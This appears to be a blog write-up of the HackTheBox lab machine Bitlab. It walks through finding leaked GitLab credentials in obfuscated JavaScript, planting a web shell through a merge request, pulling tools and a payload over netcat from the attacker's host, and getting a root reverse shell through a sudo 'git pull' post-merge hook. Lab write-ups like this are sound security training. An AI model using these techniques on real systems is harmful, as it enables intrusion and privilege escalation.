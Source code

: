 ```yaml
---
layout: post
title: "HackTheBox - Bitlab"
categories: htb
permalink: /:categories/bitlab/
---
```


# HackTheBox -- Bitlab

## Initial Enumeration
Let's start with our usual nmap scan.
```
$ nmap -sCSV -p 1-10000 10.10.10.114
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-01 15:11 AEDT
Nmap scan report for 10.10.10.114
Host is up (0.057s latency).
Not shown: 9998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
|   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
|_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
80/tcp open  http    nginx
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.114/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
<br />

Nothing too interesting here, apart from the fact that the HTTP server is running Gitlab. Seems like this might be another code-review box, nice. No obvious ways in, so let's fire up burpsuite and see if its spider picks up anything interesting.

So after about 30 seconds of clicking on links we land on an interesting one. The "help" link leads us to an open directory, with an interesting "bookmarks.html" file. Let's take a look.

## Initial Foothold
Hmm, it just seems to be a bunch of links. However, while most of the links go to outside URLs, the "Gitlab Login" link is interesting. It seems to be some poorly obfuscated javascript. So let's copy this javascript, clean it up a little and see what we can extract from it.
```javascript
function() {
    var _0x4b18 = [
        "\x76\x61\x6C\x75\x65",
        "\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E",
        "\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64",
        "\x63\x6C\x61\x76\x65",
        "\x75\x73\x65\/x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64",
        "\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"
    ];

    document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]] = _0x4b18[3];
    document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]] = _0x4b18[5];
})()
```
<br />

So, the first thing that should jump out at you when looking at this should be the hex. Based on the range of characters it looks like valid ascii. So let's get decoding. We'll should also rename the array so it's a bit more readable, and take the variables out of the array in the `document` statements at the bottom.
```javascript
function() {
    var arr = [
        "value",
        "user_login"
        "getElementById",
        "clave",
        "user_password",
        "11des0081x"
    ];

    document["getElementById"]("user_login")["value"] = "clave";
    document["getElementById"]("user_password")["value"] = "11des0081x";
}
```
<br />

Nice. It's pretty obvious this is some sort of hacky login script that this dude "clave" wrote. Let's cut out all the crap so the javascript is readable (an unnecessary step, but indulge me).
```
function() {
    document.getElementById("user_login").value = "clave";
    document.getElementById("user_password").value = "11des0081x";
}
```
<br />

Awesome, now that we have some credentials we should use them. They're definitely for the gitlab login page. Let's give them a go and see what we can see.

Okay, so it seems like "clave" has access to two repositories, "Profile" and "Deployer". Let's give both of these a good read (commits, issues, pull requests, source code, etc) and see if we can't find anything interesting. 

So "Profile" is completely uninteresting apart from the fact that it has "Auto DevOps" enabled. "Deployer" is very interesting. It seems to be a git hook for the "Profile" repo. It looks like whenever a successful merge request goes through on "Profile", the updated "Profile" repo is pulled onto the server. So I think our first step should be finding where the profile page is located on the server. What's the bet that it's just at "/profile"?

Yup, that worked. Let's see if can get a shell uploaded. It should be as simple as uploading the shell to another branch on the "Profile" repo and submitting a merge request. Let's give this a go.

Shell successfully uploaded, merge request successful. Hopefully we should be able to see our shell in the profile directory. Yup, there it is.
```
p0wny@shell:…/html/profile# whoami
www-data
```
<br />

## Getting User & Root
Let's upload our enumeration script and see what we can find.
```
p0wny@shell:/tmp# nc 10.10.xx.xx 4444 > LinEnum.sh
```
```
$ nc -lv -p 4444 < LinEnum.sh
listening on [any] 4444 ...
connect to [10.10.xx.xx] from bitlab.htb [10.10.10.114] 49978
```
```
p0wny@shell:/tmp# sh LinEnum.sh

...

-e [-] Super user account(s):
root
-e

...

User www-data may run the following commands on bitlab:
    (root) NOPASSWD: /usr/bin/git pull

...
```
<br />

Huh, so it seems we can use `git pull` as sudo. We can leverage this, but it'll be a little weird. I hope you're familiar with git. I don't want to go into too much detail as to how this exploit works, but I'll give you an overview.
 1. You need to create two repositories: one is the remote (the "master") repository, and one is the "local" repository.
 2. You set the remote of the "local" repo to be the "master" repo you created earlier.
 3. You make changes in both repos, so when you use `git pull`, a merge is forced. 
 4. You can create a file "local/.git/hooks/post-merge", that gets executed when you `git pull`.

<br />

In the example `payload.tar`, the script that gets executed is a reverse shell. You can look throught the provided files to get a feel for it. 

We upload our payload to the server using netcat.
```
p0wny@shell:/tmp# nc 10.10.xx.xx 4444 > payload.tar
```
```
$ nc -lv -p 4444 < payload.tar
listening on [any] 4444 ...
connect to [10.10.xx.xx] from bitlab.htb [10.10.10.114] 49978
```
<br />

Next we unpack it and execute `sudo git pull`. Remember we have to have netcat running on our end to receive the reverse shell.
```
p0wny@shell:/tmp# tar xf payload.tar
p0wny@shell:/tmp# cd payload/payload
p0wny@shell:…/payload/payload# sudo git pull
```
```
$ nc -lv -p 4444
listening on [any] 4444 ...
connect to [10.10.xx.xx] from bitlab.htb [10.10.10.114] 59150
# /bin/bash
/bin/bash
root@bitlab:/tmp/payload/payload#
```
<br />

Awesome. Now we can get the root and user flags.
```
root@bitlab:/# cat /home/clave/user.txt
cat /home/clave/user.txt
1e3fd81ec3aa2f1462370ee3c20b8154
```
```
root@bitlab:/# cat /root/root.txt
cat /root/root.txt
8d4cc131757957cb68d9a0cddccd587c
```
<br />

## Lessons Learned
 * Git hooks can be leveraged to gain privilege escalation / command execution.
 * Open directories can leak sensitive information.
 * Always enumerate for directories (dirbuster would have found both the profile page and the open help directory, we got lucky).


